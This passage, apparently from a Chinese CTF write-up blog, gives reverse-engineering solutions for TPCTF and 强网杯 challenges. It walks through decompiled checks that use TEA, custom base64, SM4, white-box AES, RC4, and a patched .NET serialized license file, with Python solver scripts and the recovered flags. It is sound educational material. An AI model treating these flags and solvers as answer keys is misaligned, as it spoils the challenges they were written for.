0xAE, 0x08, 0xBA, 0x78, 0x25, 0x2E, 0x1C, 0xA6, 0xB4, 0xC6, 0xE8, 0xDD, 0x74, 0x1F, 0x4B, 0xBD, 0x8B, 0x8A, 0x70, 0x3E, 0xB5, 0x66, 0x48, 0x03, 0xF6, 0x0E, 0x61, 0x35, 0x57, 0xB9, 0x86, 0xC1, 0x1D, 0x9E, 0xE1, 0xF8, 0x98, 0x11, 0x69, 0xD9, 0x8E, 0x94, 0x9B, 0x1E, 0x87, 0xE9, 0xCE, 0x55, 0x28, 0xDF, 0x8C, 0xA1, 0x89, 0x0D, 0xBF, 0xE6, 0x42, 0x68, 0x41, 0x99, 0x2D, 0x0F, 0xB0, 0x54, 0xBB, 0x16]
    
def left_shift(x, n):
    return (x << n) & 0xff | (x >> (8 - n))

def right_shift(x, n):
    return (x >> n) | (x << (8 - n)) & 0xff

def enc2(input):
    for i in range(4):
        for j in range(32):
            for z in range(8):
                rax_ = z & 7
                rax = (z + 1) & 7
                tmp = (sbox[input[8 * i + z] + input[8 * i + rax_ + 8]]) & 0xff
                input[8 * i + rax + 8] = left_shift((tmp + input[8 * i + rax + 8]) & 0xff)
    return input

# 懒得逆了😀 这里借用了其他师傅的dec2
def decrypt2(data):
    out = list(data)
    for k in range(3, -1, -1):
        for i in range(32):
            for j in range(7, -1, -1):
                out[8 + 8 * k + ((j + 1) & 7) & 0x1f] = right_shift(out[8 + 8 * k + ((j + 1) & 7) & 0x1f], 1) - sbox[out[8 + 8 * k + (j & 7) & 0x1f] + out[j + 8 * k] & 0xff] & 0xff
    return bytes(out)

if __name__ == '__main__':
    result = [
        0x69DA6110F30513BE, 0xB564B4894A8B7B39, 0xD94585C18415AE32, 0xF68893F67CB61DA9
    ]
    r = []
    for x in result:
        r += list(struct.pack('<Q', x))

    enc1_table = {}
    for i in string.printable:
        enc1_table[enc1([ord(i)])[0]] = ord(i)
    enc3_table = {}
    for i in range(0x10000):
        enc3_table[enc3([i])[0]] = i
    flag = []
    for i in range(16):
        word = enc3_table[r[2 * i] | (r[2 * i + 1] << 8)]
        flag += [word & 0xff, word >> 8]
    flag = list(decrypt2(flag))
    for i in range(32):
        flag[i] = enc1_table[flag[i]]
    print(b"TPCTF{" + bytes(flag) + b"}")
```

# 强网杯

## babyre

逻辑很简单，一个类似TEA的加密。

```C
__int64 sub_7FF7A24E2050()
{
	...
    printf("Please input your key:");
    std::istream::getline(std::cin, Str, 33i64);
    if ( j_strlen(Str) == 32 )
    {
        memset(v5, 0, 0x20ui64);
        4char_to_1int((__int64)v5, (__int64)Str);
        for ( j = 0; j < 4; ++j )
            tea_dec(&v5[2 * j], &v5[2 * j + 1]);
        sub_7FF7A24E1087((__int64)v5, (__int64)byte_7FF7A24EE218);
        for ( k = 0; (int)k < 32; ++k )
        {
            if ( byte_7FF7A24EE040[k] != byte_7FF7A24EE218[k] )
            {
                printf("No No No!!!");
                sub_7FF7A24E11A9("%d", k);
                goto LABEL_15;
            }
        }
        printf("Yes!!!");
    }
    else
    {
        sub_7FF7A24E11A9("Wrong Length!");
    }
    return 0i64;
}
```

只是`key`和`result`被`TLSCallback`更改了：




脚本：

```Python
import struct
result = [0xE0, 0xF3, 0x21, 0x96, 0x97, 0xC7, 0xDE, 0x89, 0x9B, 0xCA,
          0x62, 0x8D, 0xB0, 0x5D, 0xFC, 0xD2, 0x89, 0x55, 0x1C, 0x42,
          0x50, 0xA8, 0x76, 0x9B, 0xEA, 0xB2, 0xC6, 0x2F, 0x7C, 0xCF,
          0x11, 0xDE]
for i in range(32):
    result[i] = result[i] ^ i
flag = []

def tea_dec(cipher, key):
    num = (0x90508D47 - 0x77BF7F99 * 33 * 4) & 0xFFFFFFFF
    for j in range(4):
        for i in range(33):
            num = (num + 0x77BF7F99) & 0xFFFFFFFF
            cipher[1] -= ((((cipher[0] << 5) ^ (cipher[0] >> 4)) + cipher[0]) & 0xffffffff) ^ (num + key[(num >> 11) & 3])
            cipher[1] &= 0xFFFFFFFF
            cipher[0] -= ((((cipher[1] << 5) ^ (cipher[1] >> 4)) + cipher[1]) & 0xffffffff) ^ (num + key[num & 3]) ^ num
            cipher[0] &= 0xFFFFFFFF
    return cipher

c = list(struct.unpack('<8I', bytearray(result)))
key = [0x62, 0x6F, 0x6D, 0x62]
content = []
for i in range(0, 8, 2):
    content += tea_dec(c[i:i + 2], key)
for i in range(len(content)):
    flag += struct.pack('<I', content[i])
print(bytearray(flag))
```

## ezre

放在强网先锋的ezre。

混淆给D8秒了，得到代码：

```C
__int64 __fastcall main(int a1, char **a2, char **a3)
{
    ...
        printf("Welcome to the CTF world:");
    memset(s, 0, 0x32uLL);
    ((void (*)(const char *, ...))__isoc99_scanf)("%s", s);
    v16 = strlen(s);
    v3 = strlen(s);
    v10 = 0;
    base64((__int64)s, (__int64)v11, v3);
    while ( v10 < 4 )
    {
        srand(byte_406132);
        v4 = strlen((const char *)(unsigned int)table);
        change_table((__int64)table, v4);
        if ( (v10 & 1) != 0 )
        {
            v5 = strlen(v11);
            base64((__int64)v11, (__int64)v12, v5);
        }
        else
        {
            base64decode((__int64)v11, (__int64)v12);
        }
        memset(v11, 0, 50uLL);
        memcpy(v11, v12, 50uLL);
        ++v10;
    }
    if ( dword_4062C0 == 1 )
    {
        revser_table((__int64)table, (__int64)&table[64]);
        for ( i = 0; i < 64; ++i )
            table[i] = (5 * (table[i] + 3)) ^ 0x15;
    }
    else
    {
        for ( j = 0; j < 64; ++j )
            table[j] ^= 0x27u;
    }
    sub_401EB0(v12, v13);
    for ( k = 0; ; ++k )
    {
        if ( k >= strlen(v12) )
        {
            printf("right!");
            return 0;
        }
        if ( byte_406180[k] != v13[k] )
            break;
    }
    printf("wrong!");
    return 0;
}

__int64 __fastcall sub_401EB0(char *input, char *output)
{
	...
    s = input;
    output_ = output;
    v8 = strlen(input);
    v7 = 2023;
    index = 0;
    memset(v5, 0, 0x32uLL);
    strncpy(v5, &table[6], 0x15uLL);
    v5[21] = 0;
    strcpy(output_, s);
    while ( index < v8 - 1 )
    {
        if ( index % 3 == 1 )
        {
            v7 = (v7 + 5) % 20;
            v3 = v5[v7 + 1];
        }
        else if ( index % 3 == 2 )
        {
            v7 = (v7 + 7) % 19;
            v3 = v5[v7 + 2];
        }
        else
        {
            v7 = (v7 + 3) % 17;
            v3 = v5[v7 + 3];
        }
        output_[index] ^= v3;
        v4 = output_[index++];
        output_[index] ^= v4;
    }
    return 0LL;
}
```

`.init_array`有反调试，影响`main`里的一些操作：


只用关注红框的就好了。

脚本：

变换的base64表在linux环境下执行以下代码就可以得到了。

```Python
import base64

result = [0x3A, 0x2C, 0x4B, 0x51, 0x68, 0x46, 0x59, 0x63, 0x24, 0x04, 0x5E, 0x5F, 0x00, 0x0C, 0x2B, 0x03, 0x29, 0x5C, 0x74, 0x70, 0x6A, 0x62, 0x7F, 0x3D, 0x2C, 0x4E, 0x6F, 0x13, 0x06, 0x0D, 0x06, 0x0C, 0x4D, 0x56, 0x0F, 0x28, 0x4D, 0x51, 0x76, 0x70, 0x2B, 0x05, 0x51, 0x68, 0x48, 0x55, 0x24, 0x19]
base64table0 = "l+USN4J5Rfj0TaVOcnzXiPGZIBpoAExuQtHyKD692hwmqe7/Mgk8v1sdCW3bYFLr"
base64table1 = "FGseVD3ibtHWR1czhLnUfJK6SEZ2OyPAIpQoqgY0w49u+7rad5CxljMXvNTBkm/8"
base64table2 = "Hc0xwuZmy3DpQnSgj2LhUtrlVvNYks+BX/MOoETaKqR4eb9WF8ICGzf6id1P75JA"
base64table3 = "pnHQwlAveo4DhGg1jE3SsIqJ2mrzxCiNb+Mf0YVd5L8c97/WkOTtuKFZyRBUPX6a"
base64table4 = "plxXOZtaiUneJIhk7qSYEjD1Km94o0FTu52VQgNL3vCBH8zsA/b+dycGPRMwWfr6"
base64table5 = []
for i in range(len(base64table4)):
    base64table5.append(ord(base64table4[i]) ^ 0x27)

def dec1(input, table):
    v7 = 2023
    v5 = table[6:6+0x15] + [0] * (0x32 - 21)
    v5[21] = 0
    xor_num = []    
    for i in range(len(input) - 1):
        if i % 3 == 1:
            v7 = (v7 + 5) % 20
            xor_num.append(v5[v7 + 1])
        elif i % 3 == 2:
            v7 = (v7 + 7) % 19
            xor_num.append(v5[v7 + 2])
        else:
            v7 = (v7 + 3) % 17
            xor_num.append(v5[v7 + 3])
    for i in range(len(input) - 2, -1, -1):
        input[i + 1] ^= input[i]
        input[i] ^= xor_num[i]
    return input

import base64

def encode(input, new_table):
    STANDARD_ALPHABET = b'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
    CUSTOM_ALPHABET = new_table.encode()
    ENCODE_TRANS = bytes.maketrans(STANDARD_ALPHABET, CUSTOM_ALPHABET)
    return base64.b64encode(input).translate(ENCODE_TRANS)

def decode(input, new_table):
    STANDARD_ALPHABET = b'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
    CUSTOM_ALPHABET = new_table.encode()
    DECODE_TRANS = bytes.maketrans(CUSTOM_ALPHABET, STANDARD_ALPHABET)
    return base64.b64decode(input.translate(DECODE_TRANS))


def enc2():
    v11, v12 = input, ""
    v11 = base64.b64encode(v11)
    v11 = base64.b64decode(v11)
    v11 = base64.b64encode(v11)
    v11 = base64.b64decode(v11)
    v11 = base64.b64encode(v11)

def dec2(input):
    input = decode(input, base64table4)
    input = encode(input, base64table3)
    input = decode(input, base64table2)
    input = encode(input, base64table1)
    input = decode(input, base64table0)
    return input


if __name__ == '__main__':
    a = dec1(result, base64table5)
    print(bytearray(a))
    print(dec2(bytearray(a)))
    # b'flag{3ea590ccwxehg715264fzxnzepqz}'
```

## ezre

放在逆向的ezre。

混淆同样是D8秒了，我的神。

main里面啥也不是，程序开了子进程，猜测是获取输入，在另一个进程里加密。

```C
unsigned __int64 __fastcall sub_39F0(unsigned int a1)
{
    ... 
    v3 = 1;
    ptrace(PTRACE_GETREGS, a1, 0LL, (char *)&stat_loc.__iptr + 4);
    ptr = malloc(0x1DuLL);
    sub_3270(a1, v7, ptr, 29LL);  // 猜测是获取另一个进程的输入
    sub_3580(ptr, 29LL); // 加密
    free(ptr);
	...
}
__int64 __fastcall sub_3580(const char *a1)
{
    _BOOL4 v1; // esi
    unsigned __int8 v2; // bl
    size_t v4; // [rsp+38h] [rbp-C8h]
    int i; // [rsp+60h] [rbp-A0h]
    __int64 v7[4]; // [rsp+80h] [rbp-80h]
    __int64 v8[2]; // [rsp+A0h] [rbp-60h] BYREF
    char s[64]; // [rsp+B0h] [rbp-50h] BYREF
    unsigned __int64 v10; // [rsp+F0h] [rbp-10h]

    v10 = __readfsqword(0x28u);
    memset(s, 0, 0x32uLL);
    // SM4特征
    v8[0] = 0xEFCDAB8967452301LL;
    v8[1] = 0xEFCDAB8967452301LL;
    v7[0] = 0x7C88631647197506LL;
    v7[1] = 0x4A0D7D3FFF55668BLL;
    v7[2] = 0xDEC2E93F384ED2F5LL;
    v7[3] = 0x3C1FB1746F7F7CDBLL;
    v4 = 16 * (strlen(a1) >> 4);
    v1 = (strlen(a1) & 0xF) != 0;
    v2 = strlen(a1);
    sub_2220(v2, v8, a1, s);
    for ( i = 0; ; ++i )
    {
        if ( i >= 16 * v1 + (int)v4 )
            return 1;
        if ( *((unsigned __int8 *)v7 + i) != (unsigned __int8)s[i] )
            break;
    }
    return 0;
}

unsigned __int64 __fastcall sub_2220(unsigned __int8 input_len, __int64 key, __int64 input, __int64 output)
{
	... 
    v25 = __readfsqword(0x28u);
    ptr = malloc(0x32uLL);
    memset(&s, 0, 0x20uLL);
    memset(enc_key, 0, sizeof(enc_key));
    memset(v15, 0, 0x120uLL);
    4char_to_1int(key, &s);
    4char_to_1int(key + 4, &v22);
    4char_to_1int(key + 8, &v23);
    4char_to_1int(key + 12, &v24);
    enc_key[0] = s ^ 0xA3B1BAC6LL;
    enc_key[1] = v22 ^ 0x56AA3350;
    enc_key[2] = v23 ^ 0x677D9197;
    enc_key[3] = v24 ^ 0xB27022DCLL;
    for ( i = 0; i < 32; ++i )                    // 子密钥
    {
        v6 = enc_key[i];
        enc_key[i + 4] = sub_16F0(qword_6030[i] ^ enc_key[i + 3] ^ enc_key[i + 2] ^ enc_key[i + 1]) ^ v6;
    }
    for ( j = 0; j < input_len; ++j )
        ptr[j] = *(_BYTE *)(input + j);
    for ( k = 0; k < 16 - input_len % 16; ++k )   // 补齐
        ptr[input_len + k] = 0;
    for ( m = 0; m < (input_len % 16 != 0) + input_len / 16; ++m )
    {
        4char_to_1int((__int64)&ptr[16 * m], v15);
        4char_to_1int((__int64)&ptr[16 * m + 4], &v15[1]);
        4char_to_1int((__int64)&ptr[16 * m + 8], &v15[2]);
        4char_to_1int((__int64)&ptr[16 * m + 12], &v15[3]);
        for ( n = 0; n < 32; ++n )
        {
            v5 = v15[n];
            v15[n + 4] = sub_1BC0(enc_key[n + 4] ^ v15[n + 3] ^ v15[n + 2] ^ v15[n + 1]) ^ v5;
        }                                           // 最后四轮溢出覆盖到19、18、17、16
        sub_13A0(v19, 16 * m + output); // int2byte
        sub_13A0(v18, 16 * m + output + 4);
        sub_13A0(v17, 16 * m + output + 8);
        sub_13A0(v16, 16 * m + output + 12);
    }
    free(ptr);
    return v25;
}
```

有密钥和密文，[国密SM4在线加密/解密](https://bkssl.com/ssl/sm4)


## dotdot

`ILSpy`打开(`dnspy`看不到数据)：

```C#
private static void Main(string[] args)
{
    try
    {
        BBB();
        byte[] array = new byte[16];
        byte[] array2 = new byte[16];
        byte[] array3 = new byte[16];
        AAA(v31, array2);
        Array.Clear(array, 0, 0);
        AAA(array, array3);
        if (!CCC(v4, array2, 16) || !CCC(v5, array3, 16))
        {
            Environment.Exit(-1);
        }
        v7 = DDD("License.dat");
        EEE(Encoding.UTF8.GetBytes(v6), v7);
        MemoryStream memoryStream = new MemoryStream(v7);
        BinaryFormatter binaryFormatter = new BinaryFormatter();
        memoryStream.Position = 0L;
        binaryFormatter.Deserialize(memoryStream);
        memoryStream.Close();
        Console.WriteLine(Encoding.UTF8.GetString(v10));
    }
    catch (Exception)
    {
    }
}
private static void BBB()
{
    v6 = Console.ReadLine();
    byte[] bytes = Encoding.UTF8.GetBytes(v6);
    if (bytes.Length == 16)
    {
        bytes.CopyTo(v31, 0);
    }
    else
    {
        Environment.Exit(-1);
    }
}
public static void AAA(byte[] aaa, byte[] bbb)
{
    for (int i = 0; i < 9; i++)
    {
        GGG(aaa);
        for (int j = 0; j < 4; j++)
        {
            uint num = v11[i, 4 * j, aaa[4 * j]];
            uint num2 = v11[i, 4 * j + 1, aaa[4 * j + 1]];
            uint num3 = v11[i, 4 * j + 2, aaa[4 * j + 2]];
            uint num4 = v11[i, 4 * j + 3, aaa[4 * j + 3]];
            uint num5 = v12[i, 24 * j, (num >> 28) & 0xF, (num2 >> 28) & 0xF];
            uint num6 = v12[i, 24 * j + 1, (num3 >> 28) & 0xF, (num4 >> 28) & 0xF];
            uint num7 = v12[i, 24 * j + 2, (num >> 24) & 0xF, (num2 >> 24) & 0xF];
            uint num8 = v12[i, 24 * j + 3, (num3 >> 24) & 0xF, (num4 >> 24) & 0xF];
            aaa[4 * j] = (byte)((v12[i, 24 * j + 4, num5, num6] << 4) | v12[i, 24 * j + 5, num7, num8]);
            num5 = v12[i, 24 * j + 6, (num >> 20) & 0xF, (num2 >> 20) & 0xF];
            num6 = v12[i, 24 * j + 7, (num3 >> 20) & 0xF, (num4 >> 20) & 0xF];
            num7 = v12[i, 24 * j + 8, (num >> 16) & 0xF, (num2 >> 16) & 0xF];
            num8 = v12[i, 24 * j + 9, (num3 >> 16) & 0xF, (num4 >> 16) & 0xF];
            aaa[4 * j + 1] = (byte)((v12[i, 24 * j + 10, num5, num6] << 4) | v12[i, 24 * j + 11, num7, num8]);
            num5 = v12[i, 24 * j + 12, (num >> 12) & 0xF, (num2 >> 12) & 0xF];
            num6 = v12[i, 24 * j + 13, (num3 >> 12) & 0xF, (num4 >> 12) & 0xF];
            num7 = v12[i, 24 * j + 14, (num >> 8) & 0xF, (num2 >> 8) & 0xF];
            num8 = v12[i, 24 * j + 15, (num3 >> 8) & 0xF, (num4 >> 8) & 0xF];
            aaa[4 * j + 2] = (byte)((v12[i, 24 * j + 16, num5, num6] << 4) | v12[i, 24 * j + 17, num7, num8]);
            num5 = v12[i, 24 * j + 18, (num >> 4) & 0xF, (num2 >> 4) & 0xF];
            num6 = v12[i, 24 * j + 19, (num3 >> 4) & 0xF, (num4 >> 4) & 0xF];
            num7 = v12[i, 24 * j + 20, num & 0xF, num2 & 0xF];
            num8 = v12[i, 24 * j + 21, num3 & 0xF, num4 & 0xF];
            aaa[4 * j + 3] = (byte)((v12[i, 24 * j + 22, num5, num6] << 4) | v12[i, 24 * j + 23, num7, num8]);
            num = v13[i, 4 * j, aaa[4 * j]];
            num2 = v13[i, 4 * j + 1, aaa[4 * j + 1]];
            num3 = v13[i, 4 * j + 2, aaa[4 * j + 2]];
            num4 = v13[i, 4 * j + 3, aaa[4 * j + 3]];
            num5 = v12[i, 24 * j, (num >> 28) & 0xF, (num2 >> 28) & 0xF];
            num6 = v12[i, 24 * j + 1, (num3 >> 28) & 0xF, (num4 >> 28) & 0xF];
            num7 = v12[i, 24 * j + 2, (num >> 24) & 0xF, (num2 >> 24) & 0xF];
            num8 = v12[i, 24 * j + 3, (num3 >> 24) & 0xF, (num4 >> 24) & 0xF];
            aaa[4 * j] = (byte)((v12[i, 24 * j + 4, num5, num6] << 4) | v12[i, 24 * j + 5, num7, num8]);
            num5 = v12[i, 24 * j + 6, (num >> 20) & 0xF, (num2 >> 20) & 0xF];
            num6 = v12[i, 24 * j + 7, (num3 >> 20) & 0xF, (num4 >> 20) & 0xF];
            num7 = v12[i, 24 * j + 8, (num >> 16) & 0xF, (num2 >> 16) & 0xF];
            num8 = v12[i, 24 * j + 9, (num3 >> 16) & 0xF, (num4 >> 16) & 0xF];
            aaa[4 * j + 1] = (byte)((v12[i, 24 * j + 10, num5, num6] << 4) | v12[i, 24 * j + 11, num7, num8]);
            num5 = v12[i, 24 * j + 12, (num >> 12) & 0xF, (num2 >> 12) & 0xF];
            num6 = v12[i, 24 * j + 13, (num3 >> 12) & 0xF, (num4 >> 12) & 0xF];
            num7 = v12[i, 24 * j + 14, (num >> 8) & 0xF, (num2 >> 8) & 0xF];
            num8 = v12[i, 24 * j + 15, (num3 >> 8) & 0xF, (num4 >> 8) & 0xF];
            aaa[4 * j + 2] = (byte)((v12[i, 24 * j + 16, num5, num6] << 4) | v12[i, 24 * j + 17, num7, num8]);
            num5 = v12[i, 24 * j + 18, (num >> 4) & 0xF, (num2 >> 4) & 0xF];
            num6 = v12[i, 24 * j + 19, (num3 >> 4) & 0xF, (num4 >> 4) & 0xF];
            num7 = v12[i, 24 * j + 20, num & 0xF, num2 & 0xF];
            num8 = v12[i, 24 * j + 21, num3 & 0xF, num4 & 0xF];
            aaa[4 * j + 3] = (byte)((v12[i, 24 * j + 22, num5, num6] << 4) | v12[i, 24 * j + 23, num7, num8]);
        }
    }
    GGG(aaa);
    for (int k = 0; k < 16; k++)
    {
        aaa[k] = v14[9, k, aaa[k]];
    }
    for (int l = 0; l < 16; l++)
    {
        bbb[l] = aaa[l];
    }
}

public static void EEE(byte[] v22, byte[] v21)
{
    int[] array = new int[256];
    int[] array2 = new int[256];
    byte[] array3 = new byte[v21.Length];
    int i;
    for (i = 0; i < 256; i++)
    {
        array[i] = v22[i % v22.Length];
        array2[i] = i;
    }
    int num = (i = 0);
    for (; i < 256; i++)
    {
        num = (num + array2[i] + array[i]) % 256;
        int num2 = array2[i];
        array2[i] = array2[num];
        array2[num] = num2;
    }
    int num3 = (num = (i = 0));
    for (; i < v21.Length; i++)
    {
        num3++;
        num3 %= 256;
        num += array2[num3];
        num %= 256;
        int num2 = array2[num3];
        array2[num3] = array2[num];
        array2[num] = num2;
        int num4 = array2[(array2[num3] + array2[num]) % 256];
        array3[i] = (byte)(v21[i] ^ num4);
    }
    for (i = 0; i < v21.Length; i++)
    {
        v21[i] = array3[i];
    }
}	
private static int FFF(string a, string b)
{
    if (b.Length != 21)
    {
        return 1;
    }
    if (!v6.Equals(a))
    {
        return 1;
    }
    string s = b.PadRight((b.Length / 8 + ((b.Length % 8 > 0) ? 1 : 0)) * 8);
    byte[] bytes = Encoding.UTF8.GetBytes(s);
    byte[] bytes2 = Encoding.UTF8.GetBytes(a);
    uint[] array = new uint[4];
    for (int i = 0; i < 4; i++)
    {
        array[i] = BitConverter.ToUInt32(bytes2, i * 4);
    }
    uint num = 3735928559u;
    int num2 = bytes.Length / 8;
    byte[] array2 = new byte[bytes.Length];
    for (int j = 0; j < num2; j++)
    {
        uint num3 = BitConverter.ToUInt32(bytes, j * 8);
        uint num4 = BitConverter.ToUInt32(bytes, j * 8 + 4);
        uint num5 = 0u;
        for (int k = 0; k < 32; k++)
        {
            num5 += num;
            num3 += ((num4 << 4) + array[0]) ^ (num4 + num5) ^ ((num4 >> 5) + array[1]);
            num4 += ((num3 << 4) + array[2]) ^ (num3 + num5) ^ ((num3 >> 5) + array[3]);
        }
        Array.Copy(BitConverter.GetBytes(num3), 0, array2, j * 8, 4);
        Array.Copy(BitConverter.GetBytes(num4), 0, array2, j * 8 + 4, 4);
    }
    for (int l = 0; l < array2.Length; l++)
    {
        if (v28[l] != array2[l])
        {
            return 1;
        }
    }
    byte[] array3 = MD5.Create().ComputeHash(v7);
    for (int m = 0; m < v10.Length; m++)
    {
        v10[m] ^= array3[m % array3.Length];
    }
    return 1;
}
private static bool CCC(byte[] a, byte[] b, int length)
{
    if (a.Length < length || b.Length < length)
    {
        Environment.Exit(-1);
    }
    for (int i = 0; i < length; i++)
    {
        if (a[i] != b[i])
        {
            return false;
        }
    }
    return true;
}

public static byte[] DDD(string v33)
{
    if (!File.Exists(v33))
    {
        throw new FileNotFoundException("", v33);
    }
    using FileStream fileStream = new FileStream(v33, FileMode.Open, FileAccess.Read);
    long length = fileStream.Length;
    byte[] array = new byte[length];
    if (fileStream.Read(array, 0, (int)length) != length)
    {
        throw new IOException("");
    }
    return array;
}
public static void GGG(byte[] v16)
{
    byte[] array = new byte[16];
    uint[] array2 = new uint[16]
    {
        0u, 5u, 10u, 15u, 4u, 9u, 14u, 3u, 8u, 13u,
        2u, 7u, 12u, 1u, 6u, 11u
    };
    for (int i = 0; i < 16; i++)
    {
        array[i] = v16[array2[i]];
    }
    array.CopyTo(v16, 0);
}
```

程序逻辑，获取输入，然后进入`AAA`加密比对，然后将`License.dat`数据进行`EEE`解密，进行反序列化。

先看`AAA`的加密：

网上WP说这是AES白盒，真看不出来。

本来想写个`z3`看看能不能解的，结果才知道`z3`的变量类型不能当数组的`index`。

直接给闵神爆破出来了✪ ω ✪：`WelcomeToQWB2023`

然后进入`EEE：RC4`，密钥是`WelcomeToQWB2023`

`Cyberchef`解得：


这里其他的看不懂，但有个`FFF`，应该是反序列化会执行到这个函数。

`FFF`是个TEA加密，密文、密钥都有，解得：`dotN3t_Is_1nt3r3sting   `

```Python
def tea_dec(cipher, key):
    num = (3735928559 * 32) & 0xFFFFFFFF
    for i in range(32):
        cipher[1] -= ((num + cipher[0]) ^ ((cipher[0] << 4) + key[2])
                      ^ ((cipher[0] >> 5) + key[3])) & 0xFFFFFFFF
        cipher[1] &= 0xFFFFFFFF
        cipher[0] -= ((num + cipher[1]) ^ ((cipher[1] << 4) + key[0])
                      ^ ((cipher[1] >> 5) + key[1])) & 0xFFFFFFFF
        cipher[0] &= 0xFFFFFFFF
        num = (num - 3735928559) & 0xFFFFFFFF
    return cipher


def tea():
    result = [
        69, 182, 171, 33, 121, 107, 254, 150, 92, 29,
        4, 178, 138, 166, 184, 106, 53, 241, 42, 191,
        23, 211, 3, 107
    ]
    result = list(struct.unpack('<6I', bytes(result)))
    key = list(struct.unpack('<4I', b"WelcomeToQWB2023"))
    flag = []
    content = []
    for i in range(0, 6, 2):
        content += tea_dec(result[i:i + 2], key)
    for i in range(len(content)):
        flag += struct.pack('<I', content[i])
    # print(bytes(flag))
    return bytes(flag)
```

`FFF`后面还有一段：`v7`是解密后的`Lisence.dat`

```C#
byte[] array3 = MD5.Create().ComputeHash(Program.v7);
for (int m = 0; m < Program.v10.Length; m++)
{
    Program.v10[m] = (Program.v10[m] ^ array3[m % array3.Length]);
}
```

但执行后，啥也不是。

题干提示了`fix the lisence`，且程序进行反序列化的时候报错，所以还需要修改`lisence`

在报错的地方断住，即`switch`的`default`位置：

```C#
internal void Run()
{
    try
    {
        bool flag = true;
        this.ReadBegin();
        this.ReadSerializationHeaderRecord();
        while (flag)
        {
            BinaryHeaderEnum binaryHeaderEnum = BinaryHeaderEnum.Object;
            BinaryTypeEnum binaryTypeEnum = this.expectedType;
            if (binaryTypeEnum != BinaryTypeEnum.Primitive)
            {
                if (binaryTypeEnum - BinaryTypeEnum.String > 6)
                {
                    throw new SerializationException(Environment.GetResourceString("Serialization_TypeExpected"));
                }
                byte b = this.dataReader.ReadByte();
                binaryHeaderEnum = (BinaryHeaderEnum)b;
                switch (binaryHeaderEnum)
                {
                    case BinaryHeaderEnum.Object:
                        this.ReadObject();
                        break;
                    case BinaryHeaderEnum.ObjectWithMap:
                    case BinaryHeaderEnum.ObjectWithMapAssemId:
                        this.ReadObjectWithMap(binaryHeaderEnum);
                        break;
                    case BinaryHeaderEnum.ObjectWithMapTyped:
                    case BinaryHeaderEnum.ObjectWithMapTypedAssemId:
                        this.ReadObjectWithMapTyped(binaryHeaderEnum);
                        break;
                    case BinaryHeaderEnum.ObjectString:
                    case BinaryHeaderEnum.CrossAppDomainString:
                        this.ReadObjectString(binaryHeaderEnum);
                        break;
                    case BinaryHeaderEnum.Array:
                    case BinaryHeaderEnum.ArraySinglePrimitive:
                    case BinaryHeaderEnum.ArraySingleObject:
                    case BinaryHeaderEnum.ArraySingleString:
                        this.ReadArray(binaryHeaderEnum);
                        break;
                    case BinaryHeaderEnum.MemberPrimitiveTyped:
                        this.ReadMemberPrimitiveTyped();
                        break;
                    case BinaryHeaderEnum.MemberReference:
                        this.ReadMemberReference();
                        break;
                    case BinaryHeaderEnum.ObjectNull:
                    case BinaryHeaderEnum.ObjectNullMultiple256:
                    case BinaryHeaderEnum.ObjectNullMultiple:
                        this.ReadObjectNull(binaryHeaderEnum);
                        break;
                    case BinaryHeaderEnum.MessageEnd:
                        flag = false;
                        this.ReadMessageEnd();
                        this.ReadEnd();
                        break;
                    case BinaryHeaderEnum.Assembly:
                    case BinaryHeaderEnum.CrossAppDomainAssembly:
                        this.ReadAssembly(binaryHeaderEnum);
                        break;
                    case BinaryHeaderEnum.CrossAppDomainMap:
                        this.ReadCrossAppDomainMap();
                        break;
                    case BinaryHeaderEnum.MethodCall:
                    case BinaryHeaderEnum.MethodReturn:
                        this.ReadMethodObject(binaryHeaderEnum);
                        break;
                    default:
                        throw new SerializationException(
                            Environment.GetResourceString(
                                "Serialization_BinaryHeader", 
                                new object[]{b}
                            )
                        );
                }
            }
            else
            {
                this.ReadMemberPrimitiveUnTyped();
            }
            
            ......
}
```

报错的原因是因为`b`为`0x00`，而`b`的来源是读取文件的，位置在`0x294`：


在`switch`断住，一个个看报错前的上一次`switch`是什么，发现是在`ObjectString`


里面有读字符串操作：


先读了一个`Int32`为`0x6`：


再读字符串：


跟进`ReadString`：

1. `Read7BitEncodedInt`按解析1Byte的数据，这里获取的数据为0x0，因此返回`string.Empty`
2. 如果`Read7BitEncodedInt`获取的数据不为0x0，在后面有`this.m_stream.Read(this.m_charBytes, 0, count);`就是读取字符串的操作。因此，先读取1Byte的长度，再根据长度读取字符串。

```C#
[__DynamicallyInvokable]
public virtual string ReadString()
{
    if (this.m_stream == null)
    {
        __Error.FileNotOpen();
    }
    int num = 0;
    int num2 = this.Read7BitEncodedInt();
    if (num2 < 0)
    {
        throw new IOException(
            Environment.GetResourceString(
                "IO.IO_InvalidStringLen_Len", new object[{num2}
                )
            );
    }
    if (num2 == 0)
    {
        return string.Empty;
    }
    if (this.m_charBytes == null)
    {
        this.m_charBytes = new byte[128];
    }
    if (this.m_charBuffer == null)
    {
        this.m_charBuffer = new char[this.m_maxCharsSize];
    }
    StringBuilder stringBuilder = null;
    int chars;
    for (;;)
    {
        int count = (num2 - num > 128) ? 128 : (num2 - num);
        int num3 = this.m_stream.Read(this.m_charBytes, 0, count);
        if (num3 == 0)
        {
            __Error.EndOfFile();
        }
        chars = this.m_decoder.GetChars(this.m_charBytes, 0, num3, this.m_charBuffer, 0);
        if (num == 0 && num3 == num2)
        {
            break;
        }
        if (stringBuilder == null)
        {
            stringBuilder = StringBuilderCache.Acquire(Math.Min(num2, 360));
        }
        stringBuilder.Append(this.m_charBuffer, 0, chars);
        num += num3;
        if (num >= num2)
        {
            goto Block_11;
        }
    }
    return new string(this.m_charBuffer, 0, chars);
    Block_11:
    return StringBuilderCache.GetStringAndRelease(stringBuilder);
}
```

以上，得到：


而下一步报错的原因就是，读取下一步操作的`opcode`为`0x0`，没有定义，就报错了。

因此，可能就是报错的时候读取的不是`opcode`，是字符串被`Patch`为00了

再根据被Patch的数据之后，再`0x2A8`的位置，也有个`06 07 00 00 00`，字符串估计就是从`0x293~0x2A7`，长度为21。

恰好`FFF`解密得到的字符串就为21长度，放进去。

对于后面的`06 07 00 00 00`也是对应一个字符串，长度为16，应该就是放`AAA`解密的字符串了。

再想想，有点难以理解，但是想到`FFF`的参数恰好就是上面的两个字符串，可能是这个反序列化过程，这两个字符串可以作为其`FFF`函数的参数了吧。

Patch之后：



再继续`FFF`后面的过程就可以得到FLAG了：

```Python
v10 = [
